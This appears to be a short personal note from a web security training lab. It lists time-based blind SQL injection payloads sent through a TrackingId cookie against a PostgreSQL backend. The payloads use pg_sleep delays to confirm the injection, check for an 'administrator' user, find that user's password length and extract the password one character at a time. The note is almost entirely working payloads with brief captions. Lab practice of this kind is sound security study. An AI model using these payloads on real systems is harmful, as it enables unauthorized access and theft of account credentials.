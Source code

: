 
![[Pasted image 20250627221352.png]]
`TrackingId=x'%3BSELECT+CASE+WHEN+(1=1)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END--`
`TrackingId=x'%3BSELECT+CASE+WHEN+(1=2)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END--`

To verify if administrator exist
`TrackingId=x'%3BSELECT+CASE+WHEN+(username='administrator')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--`

Password length
`TrackingId=x'%3BSELECT+CASE+WHEN+(username='administrator'+AND+LENGTH(password)>1)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--`

Guessing the password
`TrackingId=x'%3BSELECT+CASE+WHEN+(username='administrator'+AND+SUBSTRING(password,1,1)='§a§')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--`

Change character-payload position.
`TrackingId=x'%3BSELECT+CASE+WHEN+(username='administrator'+AND+SUBSTRING(password,2,1)='§a§')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--`